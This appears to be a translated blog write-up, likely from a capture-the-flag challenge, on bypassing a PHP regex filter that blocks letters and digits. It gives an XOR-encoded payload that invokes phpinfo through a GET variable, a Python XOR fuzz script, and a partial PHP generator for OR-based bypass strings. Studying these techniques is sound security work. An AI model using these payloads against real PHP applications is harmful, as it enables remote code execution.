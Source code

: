 ![Insert the picture description here](https://img-blog.csdnimg.cn/20210602162947813.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
Find a master's method
```php
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
//${_GET}{%ff}();&%ff=phpinfo
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210602164701956.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

fuzz script

```python
def r_xor():
	for i in range(0,127):
		for j in range(0,127):
			result=i^j
			print(" "+chr(i)+" ASCII:"+str(i)+' <--xor--'+chr(j)+" ASCII:"+str(j)+' == '+chr(result)+" ASCII:"+str(result))

if __name__ == "__main__":
	r_xor()
```
Analysis:
- See the underscores "_", "__", "___" in the code are a variable, because preg_match() filters all letters, we can only use underscores as variable names
- The use of assert($_POST[ _ ]) In PHP5, the function of assert() is similar to that of eval(), but eval is used because it is a language constructor rather than a function and cannot be called by a mutable function. Therefore, this splicing method can only use assert instead of eval. However, eval() only executes code that meets the php encoding specifications. At the same time, variables are used to payload splice, and splice it.

![Insert the picture description here](https://img-blog.csdnimg.cn/20210602164314723.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/20210602164556266.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# or bypass
Generate scripts

```php
<?php
$myfile = fopen("or_rce.txt", "w");
$contents="phpinfo";
for ($i=0; $i < 256; $i++) {
    for ($j=0; $j <256; $j++) {

        if($i<16){
            $hex_i='0'.dechex($i);
        }
        else{
            $hex_i=dechex($i);
        }
        if($j<16){
            $hex_j='0'.dechex($j);
        }
        else{
            $hex_j=dechex($j);
        }
        $preg = '/[0-9a-z]/i';//Change it according to the regular expression given by the question
        if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
                    echo "";
    }
  
        else{
        $a='%'.$hex_i;
        $b='%'.$hex_j;
```